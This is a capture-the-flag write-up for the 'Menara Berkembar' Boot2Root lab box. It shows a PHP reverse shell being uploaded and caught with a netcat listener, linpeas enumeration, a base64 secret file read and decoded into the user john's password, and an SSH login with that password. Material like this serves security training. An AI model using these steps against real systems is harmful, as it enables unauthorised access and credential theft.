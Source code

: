 
## ⚔️ Exploitation

Go to the page, upload our **PHP reverse shell script**:

![img](upload.png)

```
┌──(kali㉿kali)-[~/upload]
└─$ nc -lvnp 4444             
listening on [any] 4444 ...
connect to [192.168.211.129] from (UNKNOWN) [192.168.211.143] 33208
Linux klcctower 6.8.0-64-generic #67-Ubuntu SMP PREEMPT_DYNAMIC Sun Jun 15 20:23:31 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 14:39:25 up 17 min,  0 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU  WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@klcctower:/$ 
```

Upload <code>linpeas</code> to <code>/tmp</code> to ease up the process. From the <code>linpeas</code> output, there's something interesting with the file:

```
www-data@klcctower:/tmp$ ls -la /var/www/html/apache2/mysql/secret
ls -la /var/www/html/apache2/mysql/secret
-rw-r--r-- 1 root root 61 Jul 19 02:09 /var/www/html/apache2/mysql/secret
www-data@klcctower:/tmp$ cat /var/www/html/apache2/mysql/secret
cat /var/www/html/apache2/mysql/secret
W2RiXVxudXNlciA9IGpvaG5cbnBhc3N3b3JkID0ga2xjY1Bvd2VyMjAyNCE=
www-data@klcctower:/tmp$ 
```

After **decode the secret**, we found out the **<code>john</code>'s credentials**:

```
┌──(kali㉿kali)-[/mnt/…/2025/3108CTF/Boot2Root/Menara Berkembar]
└─$ echo 'W2RiXVxudXNlciA9IGpvaG5cbnBhc3N3b3JkID0ga2xjY1Bvd2VyMjAyNCE=' | base64 -d
[db]\nuser = john\npassword = klccPower2024!   
```

Try to <code>SSH</code> to the server as user <code>john</code> and found the <code>user.txt</code>:

```
┌──(kali㉿kali)-[~/upload]
└─$ ssh john@192.168.211.143                
The authenticity of host '192.168.211.143 (192.168.211.143)' can't be established.
ED25519 key fingerprint is SHA256:TMLA93X51EokJ5lP/nClfu1mJF9ugPYDjvYlOsXyTRo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.211.143' (ED25519) to the list of known hosts.
john@192.168.211.143's password: 
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-64-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Aug 30 02:48:57 PM UTC 2025

```